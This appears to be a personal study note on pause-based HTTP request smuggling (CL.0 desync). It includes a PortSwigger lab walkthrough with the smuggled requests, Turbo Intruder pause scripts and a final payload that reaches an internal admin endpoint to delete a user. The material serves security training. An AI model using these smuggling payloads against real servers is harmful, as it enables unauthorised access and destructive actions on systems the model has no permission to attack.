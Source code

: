 # Pause-based desync attacks

Pause-based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse. Given the right conditions, this behavior can provide an alternative vector for **both server-side and client-side desync attacks**.

## Server-side pause-based desync

You can potentially use the pause-based technique to elicit [CL.0](CL.0%20smuggling%20vulnerabilities.md)-like behavior, allowing you to construct server-side request smuggling exploits for websites that may initially appear secure.

Conditions:
- front-end server must immediately forward each byte of the request to the back-end rather than waiting until it has received the full request.
- front-end server must not (or can be encouraged not to) time out requests before the back-end server
- back-end server must leave the connection open for reuse following a read timeout

*CL.0 request*
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Desync steps:
1. The front-end forwards the headers to the back-end, then continues to wait for the remaining bytes promised by the `Content-Length` header.
2. After a while, the back-end times out and sends a response, even though it has only consumed part of the request. At this point, the front-end may or may not read in this response and forward it to us.
3. We finally send the body, which contains a basic request smuggling prefix in this case.
4. The front-end server treats this as a continuation of the initial request and forwards this to the back-end down the same connection.
5. The back-end server has already responded to the initial request, so assumes that these bytes are the start of another request.

### Testing for pause-based CL.0 vulnerabilities

>[!important]
>It's possible to test for pause-based CL.0 vulnerabilities using Burp Repeater, but only if the front-end server forwards the back-end's post-timeout response to you the moment it's generated, which isn't always the case. We recommend using the [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) extension as it lets you pause mid-request then resume regardless of whether you've received a response.

1. Create a CL.0 request smuggling probe and send it to [Turbo Intruder](../Tools/Burpsuite.md#Turbo%20Intruder)
2. In Turbo Intruder's python editor, adjust the request engine configuration with the following options:
```python
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```
3. Queue the request, adding the following arguments to `queue()`:
	- `pauseMarker` - A list of strings after which you want Turbo Intruder to pause.
	- `pauseTime` - The duration of the pause in milliseconds.
```python
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000)
```
4. Queue an arbitrary follow-up request:
```python
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```
5. Ensure you are logging all responses to the results table:
```python
def handleResponse(req, interesting):
    table.add(req)
```

When you first start the attack, you won't see any results in the table. However, after the specified pause duration, you should see two results. If the response to the second request matches what you expected from the smuggled prefix, this strongly suggests that the desync was successful.

>[!note]
>Instead of using `pauseMarker` to specify a pause based on string matching, you can use the `pauseBefore` argument to specify an offset. For example, you could pause before the body by specifying an offset that's the inverse of the `Content-Length` (`pauseBefore=-34`).

### Pause-based CL.0 + Broken Access Controll

Request:
```http
POST /resources HTTP/2
Host: 0aa800b00334602580c7089d00af0065.web-security-academy.net
Cookie: session=JA4fma1pgmjHNfyR6LeZIH4uVgAq5l8m
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

GET /admin/ HTTP/1.1
Host: localhost
```

Turbo-intruder script:
```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)


def handleResponse(req, interesting):
    table.add(req)
```

Result:
![](../../zzz_res/attachments/pause-based_CL0.png)

```html
...
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
	<input required type="hidden" name="csrf" value="mfanMrypvbYexeepiit77XVCnLaCAG10">
	<label>Username</label>
	<input required type='text' name='username'>
	<button class='button' type='submit'>Delete user</button>
</form>
...
```

Final payload:
```py
'''
POST /resources HTTP/2
Host: 0aa800b00334602580c7089d00af0065.web-security-academy.net
Cookie: session=JA4fma1pgmjHNfyR6LeZIH4uVgAq5l8m
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=pUfTPDpksJMJDaheqdsvnBKBWrR43V1Y&username=carlos
'''

# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['Content-Length: 159\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)


def handleResponse(req, interesting):
    table.add(req)

```

## Client-side pause-based desync

In theory, it may be possible to perform a client-side variation of the pause-based CL.0 desync. Unfortunately, we haven't yet found a reliable way to make a browser pause mid-request. However, there is one possible workaround - an active MITM attack.
